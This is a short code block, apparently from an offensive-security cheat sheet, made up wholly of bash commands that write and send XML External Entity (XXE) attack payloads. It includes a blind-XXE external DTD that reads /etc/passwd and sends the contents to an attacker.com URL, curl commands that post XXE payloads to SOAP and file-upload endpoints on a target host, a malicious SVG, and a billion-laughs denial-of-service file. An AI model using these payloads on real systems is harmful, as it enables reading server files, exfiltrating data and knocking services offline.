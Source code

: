 ```bash
# External DTD for blind XXE
cat > dtd.xml << 'EOF'
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/steal.php?x=%file;'>">
%eval;
%exfil;
EOF
# Host dtd.xml on attacker server
# Exfiltrates file contents via HTTP request

# XXE via SOAP services
cat > xxe_soap.xml << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <getUserInfo>
            <username>&xxe;</username>
        </getUserInfo>
    </soap:Body>
</soap:Envelope>
EOF
curl -X POST -H "Content-Type: text/xml; charset=utf-8" -H "SOAPAction: getUserInfo" --data-binary @xxe_soap.xml http://target.com/soap/service

# XXE via file upload
cat > xxe_upload.svg << 'EOF'
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
EOF
curl -X POST -F "file=@xxe_upload.svg" http://target.com/upload

# XXE denial of service (billion laughs attack)
cat > xxe_dos.xml << 'EOF'
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
]>
<lolz>&lol5;</lolz>
EOF
# Exponential entity expansion
# Can cause memory exhaustion and DoS
```
